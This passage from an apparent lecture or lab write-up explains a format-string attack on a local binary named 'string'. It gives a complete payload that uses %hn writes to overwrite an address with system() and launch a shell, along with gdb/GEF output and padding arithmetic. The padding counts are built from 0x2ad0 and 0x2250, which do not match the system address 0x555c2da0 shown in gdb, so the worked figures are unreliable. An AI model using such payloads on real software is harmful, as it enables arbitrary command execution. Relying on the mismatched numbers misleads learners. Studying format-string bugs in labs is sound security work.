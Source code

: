 We now have the offset on which we will write our address of `system` function in two parts, but we know that `%hn` will the number of characters printed with `printf` we have to print `len(address(system))` length of garbage. Since our string is limited in size, we cant do that as well. For that we need to take help from the `%x` format specifier. `%(n)x` format specifier will print `(n)` number of spaces in the output but will not increase the size of input string. :cool:  

The final payload may look like this  
``./string `python -c 'import struct; print "sh;#" + struct.pack("<I", 0x804a010) + struct.pack("<I", 0x804a012) +"%10948x%11$hn%13068x%12$hn"'` ``
Now lets take a look at how I found the address of the system,  
```bash
$ gdb ./string 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
62 commands loaded for GDB 7.11.1 using Python engine 3.5
[*] 6 commands could not be loaded, run `gef missing` to know why.
GEF for linux ready, type `gef' to start, `gef config' to configure
62 commands loaded for GDB 7.11.1 using Python engine 3.5
[*] 6 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./string...(no debugging symbols found)...done.
gef➤  b main 
Breakpoint 1 at 0x804854f
gef➤  r 
Starting program: /vagrant/Lecture6/string 

Breakpoint 1, 0x0804854f in main ()

gef➤  p system
$1 = {<text variable, no debug info>} 0x555c2da0 <system>
```

Now we have the address of `system` we now need to covert this address to the count for `%(n)x`. And that we will do in two parts.  
```python
>>> 0x2ad0 - 12
10948
>>> 0x555c - 0x2250
13068
```
